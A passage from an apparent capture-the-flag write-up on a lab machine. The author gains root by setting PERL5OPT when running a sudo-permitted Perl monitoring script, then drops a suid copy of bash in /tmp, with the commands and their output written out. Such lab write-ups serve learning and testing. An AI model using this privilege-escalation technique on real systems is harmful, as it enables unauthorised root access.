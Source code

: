 I looked at '/usr/bin/xml_pp'. It was a Perl script, but no exploit jumped to my eyes.

Here I lost some time. I saw that my user was part of the 'adm' group. I looked for files I could read or write with that group. Thinking I might be able to change something that would impact the monitoring script. But I did not find anything.

Eventually I back looked at the sudo commands I could run. And I finally realized I could set environment variables when calling the script.

The script blocked me from setting some variables.

```bash
set PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
unset PERL5LIB;
unset PERLLIB;
```

I looked for ways to [exploit Perl by setting a variable](https://www.elttam.com/blog/env/). Turned out `PERL5OPT` could be used with `-M` to load a module, and run some code after the module is loaded.

I tried running a simple command with the POC.

```bash
jack@clicker:~$ sudo PERL5OPT="-Mbase;print(\`id\`)" /opt/monitor.sh
uid=0(root) gid=0(root) groups=0(root)
<?xml version="1.0"?>
<data>
  <timestamp>1699814375</timestamp>
  <date>2023/11/12 06:39:35pm</date>
  <php-version>8.1.2-1ubuntu2.14</php-version>
  <test-connection-db>OK</test-connection-db>
  <memory-usage>392704</memory-usage>
  <environment>
    <APACHE_RUN_DIR>/var/run/apache2</APACHE_RUN_DIR>
    <SYSTEMD_EXEC_PID>1177</SYSTEMD_EXEC_PID>
    <APACHE_PID_FILE>/var/run/apache2/apache2.pid</APACHE_PID_FILE>
    <JOURNAL_STREAM>8:27403</JOURNAL_STREAM>
    <PATH>/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin</PATH>
    <INVOCATION_ID>9cb4c86dee6a4141bc7a5748e246cd7c</INVOCATION_ID>
    <APACHE_LOCK_DIR>/var/lock/apache2</APACHE_LOCK_DIR>
    <LANG>C</LANG>
    <APACHE_RUN_USER>www-data</APACHE_RUN_USER>
    <APACHE_RUN_GROUP>www-data</APACHE_RUN_GROUP>
    <APACHE_LOG_DIR>/var/log/apache2</APACHE_LOG_DIR>
    <PWD>/</PWD>
  </environment>
</data>
```

It worked! I tried to use the same thing to copy bash in '/tmp' and set the suid bit. But adding spaces to the command caused issues. I created a small script that would do the same and called it with the vulnerability.

```bash
jack@clicker:~$ cat /tmp/test.sh
#!/bin/bash
cp /bin/bash /tmp
chmod u+s /tmp/bash

jack@clicker:~$ sudo PERL5OPT="-Mbase;print(\`/tmp/test.sh\`)" /opt/monitor.sh
<?xml version="1.0"?>
<data>
  <timestamp>1699814696</timestamp>
  <date>2023/11/12 06:44:56pm</date>
  <php-version>8.1.2-1ubuntu2.14</php-version>
  <test-connection-db>OK</test-connection-db>
  <memory-usage>392704</memory-usage>
```